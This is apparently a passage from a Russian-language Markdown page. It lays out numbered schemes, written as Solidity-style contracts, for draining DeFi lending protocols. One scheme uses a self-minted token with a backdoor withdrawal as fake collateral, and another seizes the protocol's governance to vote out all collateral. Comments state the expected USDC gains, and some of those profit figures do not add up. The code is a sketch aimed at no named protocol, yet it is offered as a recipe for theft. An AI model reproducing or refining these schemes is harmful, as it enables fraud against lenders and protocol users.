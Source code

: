 ```typescript
  }
}
```

### СХЕМА 4: Собственный токен как залог

```typescript
contract CustomCollateralScheme {
  IERC20 public customToken;
  
  function executeScheme() external {
    // 1. Создаем свой токен
    customToken = new CustomToken();
    
    // 2. Минтим себе 8,000 кастомных токенов
    customToken.mint(address(this), 8000e18);
    
    // 3. Размещаем кастомные токены как залог
    lendingProtocol.deposit(customToken, 8000e18);
    
    // 4. Занимаем USDC против кастомного залога
    lendingProtocol.borrow(USDC, 5000e6);
    
    // 5. Выводим залог через backdoor в нашем токене
    customToken.backdoorWithdraw(address(this), 8000e18);
    
    // 6. Обмениваем кастомные токены на USDC через наш DEX
    customDEX.swap(customToken, USDC, 8000e18);
    
    // Результат: 5,000 USDC займ + 8,000 USDC от залога = 13,000 USDC
  }
}
```

### СХЕМА 5: Атака на governance

```typescript
contract GovernanceAttackScheme {
  function executeAttack() external {
    // 1. Покупаем governance токены протокола
    uint256 governanceTokens = buyGovernanceTokens(1000000e18);
    
    // 2. Размещаем залог и занимаем
    lendingProtocol.deposit(USDC, 8000e6);
    lendingProtocol.borrow(USDC, 5000e6);
    
    // 3. Создаем предложение через governance
    uint256 proposalId = governance.propose(
      "Emergency collateral withdrawal for security reasons",
      abi.encodeWithSelector(
        lendingProtocol.emergencyWithdrawAllCollateral.selector,
        address(this)
      )
    );
    
    // 4. Голосуем за свое предложение
    governance.vote(proposalId, true);
    
    // 5. Исполняем предложение
    governance.execute(proposalId);
    
    // Результат: весь залог выведен "легально" через governance
  }
}
```